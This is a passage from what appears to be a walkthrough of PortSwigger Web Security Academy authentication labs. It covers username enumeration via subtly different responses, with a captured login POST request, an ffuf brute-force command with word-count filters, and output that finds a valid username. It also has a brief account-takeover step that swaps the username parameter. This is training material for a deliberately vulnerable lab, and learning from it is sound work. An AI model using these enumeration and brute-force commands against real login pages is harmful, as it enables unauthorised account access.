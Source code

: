 There we can see `username=wiener` has been given in the request if we can change it with some other username i.e `carlos` we can change its password and login into his account.

##### Lab #4: Username enumeration via subtly different responses

LAB URL: https://portswigger.net/web-security/authentication/password-based/lab-username-enumeration-via-subtly-different-responses

In this lab, we have a login form in which we can login with a username and password. if any of these is incorrect then they show us an error message 
```
Invalid username or password.
```

The request looks like this

```
POST /login HTTP/2
Host: 0a1900870411136ac1e490d30094006d.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Content-Type: application/x-www-form-urlencoded
Content-Length: 29
Origin: https://0a1900870411136ac1e490d30094006d.web-security-academy.net
Connection: keep-alive
Referer: https://0a1900870411136ac1e490d30094006d.web-security-academy.net/login
Cookie: session=b6Y6jPzOF2t1nfaeCysgzm1BsWmsQHLs

username=admin&password=admin
```

So we have to make a post request with a `Content-Type: application/x-www-form-urlencoded` Header. So to do that we are using again `ffuf` tool to brute force the username but any other tools can also be used i.e Burp Suite, Gobuster, Wfuzz, hydra, etc.

```
$ ffuf -w ../user.txt:FUZZ -X POST -d "username=FUZZ&password=Anything" -H "Content-Type: application/x-www-form-urlencoded" -u https://0a1900870411136ac1e490d30094006d.web-security-academy.net/login -fw 1109,1118
________________________________________________

 :: Method           : POST
 :: URL              : https://0a1900870411136ac1e490d30094006d.web-security-academy.net/login
 :: Wordlist         : FUZZ: ../user.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=FUZZ&password=Anything
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response words: 1109,1118
________________________________________________

ai                      [Status: 200, Size: 2976, Words: 1110, Lines: 63, Duration: 196ms]
```
